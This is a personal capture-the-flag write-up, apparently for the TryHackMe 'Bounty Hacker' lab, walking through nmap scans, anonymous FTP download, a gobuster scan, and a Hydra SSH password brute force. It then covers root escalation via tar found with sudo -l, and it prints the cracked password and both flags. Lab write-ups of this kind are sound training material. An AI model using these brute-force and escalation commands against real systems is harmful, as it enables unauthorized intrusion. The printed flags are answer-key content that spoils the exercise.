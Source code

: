 
Nmap
```
nmap -sS -T4 -p- 10.10.168.107
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-23 13:46 EDT
Nmap scan report for 10.10.168.107
Host is up (0.18s latency).
Not shown: 55529 filtered tcp ports (no-response), 10003 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 582.49 seconds
```

```
 nmap -T4 -p- -A 10.10.168.107
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-23 13:46 EDT
Nmap scan report for 10.10.168.107
Host is up (0.15s latency).
Not shown: 55529 filtered tcp ports (no-response), 10003 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.167.78
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Aggressive OS guesses: HP P2000 G3 NAS device (89%), Linux 2.6.32 (88%), Linux 2.6.32 - 3.1 (88%), Linux 5.0 (88%), Linux 5.0 - 5.4 (88%), Linux 5.1 (88%), Ubiquiti AirOS 5.5.9 (88%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (88%), Linux 2.6.32 - 3.13 (88%), Linux 2.6.39 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 41742/tcp)
HOP RTT       ADDRESS
1   152.56 ms 10.8.0.1
2   153.07 ms 10.10.168.107

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 544.86 seconds
```

![[Pasted image 20231023231927.png]]

We have ftp which looks sus to me let's enumerate it
```
wget -m --no-passive ftp://anonymous:anonymous@10.10.168.107 #Download all
```
![[Pasted image 20231023233453.png]]
We got this data from ftp

```
gobuster dir -u 10.10.168.107 -w /usr/share/wordlists/dirb/common.txt
```
![[Pasted image 20231023233624.png]]

Will use Hydra as we got the password list
```
hydra -l lin -P locks.txt -f ssh://10.10.168.107 -V

[22][ssh] host: 10.10.168.107   login: lin   password: RedDr4gonSynd1cat3
```
https://haxez.org/wp-content/uploads/2022/06/HaXeZ_Hydra_Cheat_Sheet-1.pdf


```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-23 14:15:41
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.168.107:22/
[ATTEMPT] target 10.10.168.107 - login "lin" - pass "rEddrAGON" - 1 of 26 [child 0] (0/0)
(0/2)
[ATTEMPT] target 10.10.168.107 - login "lin" - pass "r3ddr@g0N" - 25 of 28 [child 5] (0/2)
[ATTEMPT] target 10.10.168.107 - login "lin" - pass "ReDSynd1ca7e" - 26 of 28 [child 7] (0/2)
[REDO-ATTEMPT] target 10.10.168.107 - login "lin" - pass "RedDr4gonSynd1cat3" - 27 of 28 [child 10] (1/2)
[REDO-ATTEMPT] target 10.10.168.107 - login "lin" - pass "dRa6oN5YNDiCATE" - 28 of 28 [child 12] (2/2)
[22][ssh] host: 10.10.168.107   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-23 14:15:47 
```

```
ssh lin@10.10.168.107
RedDr4gonSynd1cat3
```
![[Pasted image 20231023234930.png]]
```
THM{CR1M3_SyNd1C4T3}
```

```
lin@bountyhacker:/$ find / -name id_rsa 2> /dev/null
/home/lin/.ssh/id_rsa
lin@bountyhacker:/$ ls -la /home/lin/.ssh/id_rsa
-rw------- 1 lin lin 1766 Jun  7  2020 /home/lin/.ssh/id_rsa
lin@bountyhacker:/$ 

```

bountyhacker                                                                                                                                                 
127.0.0.1       localhost
127.0.1.1       bountyhacker

/home/lin/.ssh/id_rsa.pub

/home/lin/.ssh/id_rsa

sudo pkexec /bin/sh

etc/update-motd.d/00-header

I did manually testing and i think at night my mind was exhusted tomorrow and i was not able to see this thing yesterday
```
sudo -l
```
it was asking for lin password which i haven't seen yesterday
![[Pasted image 20231024140256.png]]

As you can see tar can run as root so will go to our best friend GTFPbins
So always prefer manual enumeration and than fire up automated tools
![[Pasted image 20231024140641.png]]
![[Pasted image 20231024140615.png]]
```
THM{80UN7Y_h4cK3r}
```

